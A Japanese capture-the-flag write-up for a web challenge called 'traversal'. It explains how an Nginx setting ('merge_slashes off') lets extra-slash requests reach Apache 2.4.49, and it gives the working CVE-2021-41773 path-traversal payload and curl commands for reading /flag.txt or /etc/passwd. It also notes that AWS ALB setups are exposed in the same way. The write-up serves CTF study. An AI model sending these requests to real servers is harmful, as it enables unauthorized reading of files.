

# traversal

## 問題文

Webサーバーにロードバランサーをつけたよ！

なんかWebサーバーのバージョンがアレらしいけど、秘密のファイル`/flag.txt`はそのままでいっか！

<https://traversal.web.wanictf.org/>

ヒント

- いろいろ設定に違和感が...
- [Burp Suite](https://portswigger.net/burp/communitydownload)を使うのがおすすめです

## 解法

まずこのサービスの仕組みは、ユーザーからのリクエストを`traversal-lb`で受け取り、それを`traversal-web`へ流すようになっています。

そして`traversal-lb`はNginxが、`traversal-web`ではApacheが動作しており、配布ファイルにはそれぞれの設定ファイルが含まれています。

まずは`traversal-web`がどんなサービスかDockerfileをみてみると

```
FROM httpd:2.4.49
```

脆弱性が含まれていることで話題になったバージョンのApacheを使用しています。そして

```
RUN echo "FAKE{This_is_fake_flag}" > /flag.txt
```

フラグ文字列を`/flag.txt`に保存しています。これはApacheの標準設定では閲覧できない箇所のファイルを見る、いわゆるパストラバーサルで攻撃することが求められています。

このバージョン2.4.49のApacheにはCVE-2021-41773という脆弱性が確認されており、設定ファイルがデフォルトの

```
<Directory />
    AllowOverride none
    Require all denied
</Directory>
```

から

```
<Directory />
    AllowOverride none
    Require all granted
</Directory>
```

へ変更されているときに`/cgi-bin/.%2e/.%2e/.%2e/.%2e/etc/passwd`というパスでリクエストを送るとサーバー上の読み取り権限がある任意のファイルを読み出すことができます。

この問題サービスでは`/cgi-bin/.%2e/.%2e/.%2e/.%2e/flag.txt`というパスでリクエストを送ればよさそうですが、送ってみると

```html
<html>
<head><title>400 Bad Request</title></head>
<body>
<center><h1>400 Bad Request</h1></center>
<hr><center>nginx/1.20.1</center>
</body>
</html>
```

Nginx側でこのようなエラーが出ます。このリクエストのままだとNginxで処理されないようなのでそこでNginxの設定ファイルを見ると`default.conf`に`merge_slashes off;`という設定が追加されています。これは`//`や`./`のようなパスのリクエストを`/`にまとめる機能がオフになっています。

このとき最初に`///`を付け加えた`////cgi-bin/.%2e/.%2e/.%2e/.%2e/flag.txt`というパスでリクエストを送るとパストラバーサルでflagが取得できることが知られています。

参考 : [NGINX may be protecting your applications from traversal attacks without you even knowing](https://medium.com/appsflyer/nginx-may-be-protecting-your-applications-from-traversal-attacks-without-you-even-knowing-b08f882fd43d)

そして、実際にリクエストを送るときには

```
curl https://traversal.web.wanictf.org////cgi-bin/.%2e/.%2e/.%2e/.%2e/flag.txt
```

というコマンドではcurl自体がパスをまとめてしまうので`--path-as-is`というオプションを追加する必要があります。

```
curl --path-as-is https://traversal.web.wanictf.org////cgi-bin/.%2e/.%2e/.%2e/.%2e/flag.txt
```

また、Burp SuiteでHTTPリクエストを直接編集する方法でもフラグを取得できます。



> 豆知識
>
> AWS ALBがNginxの`merge_slashes off;`という設定と同様の挙動をすることが知られており、ALB配下に脆弱なバージョンのApacheやパストラバーサルができるアプリがあると攻撃が成功することがあります。
>
> https://dev.classmethod.jp/articles/apache-cve-alb-nginx/
